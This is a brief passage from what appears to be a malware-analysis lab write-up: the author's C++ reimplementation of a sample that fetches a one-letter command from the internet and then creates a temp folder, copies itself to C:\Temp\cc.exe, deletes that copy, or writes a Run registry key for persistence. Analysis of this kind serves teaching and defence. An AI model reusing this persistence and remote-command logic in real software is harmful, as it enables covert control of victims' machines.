 My reimplementation of this code looks like this:

```cpp
  int main(int argc, char* argv[], char* envp[])
  {
    if (CheckInternetAccess() != 0)
    {
      char cmd = GetCommandFromInternet();
      if ((int)cmd != 0)
      {
        printf_s("Success: Parsed command is \"%c\"\n", cmd);
        ExecCommand(cmd, (PSTR)argv[0]);
        Sleep(0xEA60);
      }
    }
    return ERROR_SUCCESS;
  }


  DWORD ExecCommand(char command, PSTR current_path)
  {
    DWORD result;

    if ((command - 0x61) > 4)
      printf_s("Error 3.2: Not a valid command provided");
    else
    {
      switch (command)
      {
        case 'a':
        {
          CreateDirectoryA("C:\\Temp", nullptr);
          break;
        }
        case 'b':
        {
          CopyFileA(current_path, "C:\\Temp\\cc.exe", TRUE);
          break;
        }
        case 'c':
        {
          DeleteFileA("C:\\Temp\\cc.exe");
          break;
        }
        case 'd':
        {
          HKEY hKey = nullptr;
          RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_ALL_ACCESS, &hKey);
          if (RegSetValueExA(hKey, "Malware", 0, REG_SZ, (const PBYTE)"C:\\Temp\\cc.exe", 0xF) != NO_ERROR)
            printf_s("Error 3.1: Could not set Registry value");
          break;
        }
        case 'e':
        {
          Sleep(0x186A0);
          break;
        }
      }
    }

    result = GetLastError();
    return result;
```